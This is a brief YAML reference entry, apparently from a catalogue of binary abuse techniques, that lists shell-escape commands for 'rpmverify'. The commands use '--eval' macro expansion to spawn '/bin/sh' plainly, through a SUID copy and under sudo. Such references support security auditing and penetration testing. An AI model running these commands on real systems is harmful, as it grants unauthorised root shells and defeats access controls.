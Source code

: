 ```yaml
---
functions:
  shell:
    - code: rpmverify --eval '%(/bin/sh 1>&2)'
  limited-suid:
    - code: ./rpmverify --eval '%(/bin/sh 1>&2)'
  sudo:
    - code: sudo rpmverify --eval '%(/bin/sh 1>&2)'
---
```

